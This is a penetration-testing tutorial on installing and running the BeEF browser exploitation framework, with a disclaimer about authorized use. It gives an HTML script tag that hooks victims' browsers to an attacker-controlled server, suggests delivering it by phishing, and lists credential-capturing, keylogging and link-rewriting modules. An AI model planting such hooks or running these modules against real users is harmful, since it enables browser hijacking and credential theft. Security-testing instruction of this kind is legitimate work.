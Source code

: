 # BeEF
**Document the steps involved in the setup and execution of BeEF and provide examples of browser-based attacks that can fie conducted using the framework**

BeEF (Browser Exploitation Framework) is an open-source penetration testing tool that focuses on web browsers. It allows security professionals to assess the security posture of a target environment by using client-side attack vectors. BeEF enables the hooking of one or more web browsers and uses them as beachheads for launching directed command modules and further attacks from within the browser context. [1]

---

 Setting Up BeEF

 Prerequisites

- A Linux-based system (e.g., Kali Linux).

- Ruby (version > 2.5).

- RubyGems.

- SQLite3.

 Installation Steps

1. Update the system:

   bash
   sudo apt update
   

2. Install BeEF and dependencies:

   bash
   sudo apt install beef-xss libsqlite3-dev -y
   

3. Install the required Ruby gem:

   bash
   gem install sqlite3
   

4. Navigate to BeEF's directory:

   bash
   cd /usr/share/beef-xss
   

5. Install necessary Ruby gems:

   bash
   bundle install
   

6. Configure BeEF (optional):

   Edit the configuration file to set custom credentials:

   ```bash
   sudo vi config.yaml
   Update the default username and password as desired.

7. *Start BeEF:*

   bash
   ./beef
   

   BeEF will start and provide URLs for the user interface and the hook script.

---

 Accessing BeEF

- *BeEF Control Panel:* Navigate to `http://127.0.0.1:3000/ui/panel` in your browser.

- *Login Credentials:* Use the default credentials (`beef`/`beef`) or the ones set during configuration.

- *Hook Script URL:* BeEF will display a hook script URL, typically `http://127.0.0.1:3000/hook.js`.

---

 Hooking a Browser

To hook a target's browser:

1. *Create a Web Page with the Hook Script:*

   Embed the hook script into a web page:

   html
   <script src="http://your_beef_server_ip:3000/hook.js"></script>
   ```

2. Deliver the Page to the Target:

   Use social engineering techniques, such as phishing emails or malicious links, to entice the target to visit the page.

3. Monitor BeEF Interface:

   Once the target accesses the page, their browser will appear as a "hooked" session in the BeEF control panel.


🛠 Demonstrating Browser-Based Attacks

After successfully hooking a browser, BeEF offers various modules to demonstrate potential vulnerabilities:

 Information Gathering

- Get Page HREFs: Retrieves all hyperlinks from the current page.
  - Get Page HTML: Fetches the entire HTML content of the page.

- Fingerprinting: Identifies browser type, version, and plugins.

 Social Engineering

- Fake Login Prompt: Displays a counterfeit login form to capture credentials.

- Alert Dialog: Shows a JavaScript alert box with a custom message.

 Exploitation

- Keylogger: Records keystrokes entered by the user.

- Redirect Browser: Forces the browser to navigate to a specified URL.

- Replace HREFs: Modifies all hyperlinks on the page to point to a malicious site. [2]


 Ethical Considerations

BeEF is a powerful tool intended for authorized penetration testing and security assessments. Unauthorized use against systems without explicit permission is illegal and unethical. Always ensure you have proper authorization before conducting any tests.
